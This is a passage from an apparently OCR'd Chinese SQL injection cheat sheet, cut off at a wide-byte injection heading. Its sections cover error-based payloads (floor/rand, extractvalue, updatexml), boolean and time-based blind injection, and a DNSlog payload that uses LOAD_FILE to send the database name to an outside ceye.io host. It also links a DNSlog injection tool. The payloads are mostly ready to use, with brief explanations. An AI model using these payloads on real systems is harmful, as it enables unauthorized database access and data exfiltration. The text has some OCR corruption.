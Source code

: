 1、floor() :select count(*) from information_schema.tables group by concat((select

2、version()),floor(rand(0)*2));https://github.com/ADOOO/Dnslogsqlinj

3、group by会对rand()函数进行操作时产生错误

4、concat:连接字符串功能

5、floor:取float的整数值

6、rand:取0~1之间随机浮点值

7、group by:根据一个或多个列对结果集进行分组并有排序功能

8、extractvalue():extractvalue(1,concat(0x7e,(select user()),0x7e));

9、updatexml():select updatexml(1,concat(0x7e,(select user()),0x7e),1);



五、布尔盲注

1、left()函数

left(database(),1)>'s'

database()显示数据库名称,leȨ(a,b)从左侧截取a的前b位

2、regexp

select user() regexp'^r'

正则表达式的用法user()结果为root,regexp为匹配root的正则表达式

3、like

select user() like'^ro%'

与regexp类似，使用like进行匹配

4、substr()函数 ascii()函数

substr()函数 ascii(substr((select database()),1,1))<>98

substr(a,b,c)从b位置开始，截取字符串a的c长度，ascii()将某个字符转换为ascii值

5、ord()函数 mid()函数

ord(mid((select user()),1,1))=114

mid(a,b,c)从位置b开始，截取a字符串的c位ord()函数同ascii(),将字符转为ascii值



六、时间盲注

if(left(user(),1)='a',0,sleep(3));



七、DNSlog注入

SELECT LOAD_FILE(CONCAT('\\\\',select database(),'.mysql.r4ourp.ceye.io\\abc'));



八、宽字节注入
